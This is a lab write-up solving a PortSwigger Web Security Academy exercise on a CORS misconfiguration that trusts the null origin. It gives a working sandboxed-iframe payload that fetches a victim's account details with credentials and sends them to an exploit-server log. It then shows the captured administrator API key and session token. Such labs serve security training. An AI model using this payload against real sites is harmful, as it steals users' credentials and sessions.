






# Lab: CORS vulnerability with trusted null origin

**Link**: https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack

**Solution**:

Like above lab, but if we notice (it didn’t accept all origins) like the following screenshot which didn’t accept our website

<p align="center" width="100%">
  
</p>

but it allows origin `null` which mean (didn’t allow any origins)

<p align="center" width="100%">
  
</p>

If we searched in this 

https://github.com/swisskyrepo/PayloadsAllTheThings

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CORS Misconfiguration#vulnerable-example-null-origin](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CORS%20Misconfiguration#vulnerable-example-null-origin)

<p align="center" width="100%">
  
</p>

We will use this `iframe`

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Test</title>
</head>
<body>
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
        var req = new XMLHttpRequest();
        req.onload = reqListener;
        req.open('get','https://0ad100cb03daa62acc005c1900770062.web-security-academy.net/accountDetails',true);
        req.withCredentials = true;
        req.send();
      
        function reqListener() {
          location='https://exploit-0a0d00e20338a647cc705be3012e00c2.exploit-server.net//log?key='+encodeURIComponent(this.responseText);
         };
      </script>"></iframe> 
</body>
</html>
```

If we store it and deliver to victim, you will see the logs like this

<p align="center" width="100%">
  
</p>

<p align="center" width="100%">
  
</p>

```jsx
{
  "username": "administrator",
  "email": "",
  "apikey": "C276Aytnihl697Essxj2ejXwLOXThL9L",
  "sessions": [
    "iCE8cIFtnKNXze6CLg9nqnGz7oUpexpo"
  ]
}
```

<p align="center" width="100%">
  
</p>
